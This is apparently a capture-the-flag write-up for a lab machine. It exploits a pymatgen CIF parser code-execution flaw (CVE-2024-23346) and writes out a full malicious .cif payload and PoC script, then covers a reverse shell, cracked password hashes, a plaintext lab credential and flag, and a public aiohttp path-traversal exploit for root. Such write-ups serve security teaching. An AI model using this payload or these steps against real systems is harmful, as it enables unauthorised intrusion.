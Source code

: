 
starting with some nmap 

```
nmap -p- -sV -sS -Pn -v -oN nmap.txt -T5 10.10.11.38

Nmap scan report for 10.10.11.38
Host is up (0.083s latency).
Not shown: 64405 closed tcp ports (reset), 1128 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

some http server on port 5000 

![[Pasted image 20250130040206.png]]

its some CIF file analyser 

![[Pasted image 20250130040249.png]]

registering will redirect us to this page .. which without further investigating appears that we can exploit it with some reverse shell and access the server 

![[Pasted image 20250130045656.png]]

but we get some endpoints  `/upload`  , more investigating with burpsuite 

![[Pasted image 20250130050214.png]]

ig it only accepts `.cif` files 
# Analyse the .cif format file 

after some googling , found that u can actually have an RCE with a .cif file [ (CVE-2024-23346)](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346)
parsing a # transformation_string can give us a way to some internal built_in python function 

lets test the vurnability first : 
we have `example.cif` and we will add the exploit at the end 
```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

the actual arbitrary code call  

now lets fire up some PoC python script `exploit.py`

```
from pymatgen.io.cif import CifParser
parser = CifParser("vuln.cif")
structure = parser.parse_structures()
```

install the pymatgen library and run the script 

```
pip3 install pymatgen 
python3 exploit.py 
```

NOTE : many of u will try to execute the script but nothing will pop out , the reason of that cuz using a pacthed version of pymatgen .. make sure to install the the unpatched version when testing the exploit 

```
pip3 install pymatgen=2024.2.8 --break-system-packages 
```

voila 

![[Pasted image 20250130061141.png]]

now we can generate a reverse shell with https://www.revshells.com/ 

![[Pasted image 20250130061407.png]]

we upload the file with the reverse shell and now we have a shell 

![[Pasted image 20250130062638.png]]

upgrade from simple shell to an interactive shell (Recommanded in every machine u play )

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

now we get to the real work . we have rosa user and ofc we dont have permession for the home folder 

![[Pasted image 20250130063429.png]]

and we have a `database.db` file under instance .. lets try it 

![[Pasted image 20250130064817.png]]

list of hashes and hash of rosa among them , ill c rack it with crackstation cuz its easy and online 

![[Pasted image 20250130064935.png]]

we have password , lets validate it 

![[Pasted image 20250130065305.png]]

rosa:unicorniosrosados 
user.txt : 701936ae5503aa56dffdf9646166e79b 
# Privilege Escalation 
lets elevate our writes to root for the root flag 

![[Pasted image 20250130065612.png]]

i would like to try some linpease but its soo verbose and theres so many output ..  so ill skip to the result 

in the /opt folder theres a `monitoring_site`  we dont have the right to it cuz its under root .. thats a good thing .. so we have to find a way to it . 
theres smthing running localy on port 8080 

![[Pasted image 20250130070243.png]]

forward it to ur local machine 

```
ssh -L 8080:localhost:8080 rosa@10.10.11.38
```

![[Pasted image 20250130070508.png]]

enumerating this monitoring website . maybe we can find something . since the folder under root user so it must run under root 

![[Pasted image 20250130071853.png]]

aiohttp/3.9.1 server 
after some digging i found an exploit for that (https://github.com/z3rObyte/CVE-2024-23334-PoC) 

```
pip3 install -r requirements.txt
python3 server.py
bash exploit.sh
```

and we have root 




root.txt :  




[[machines]]
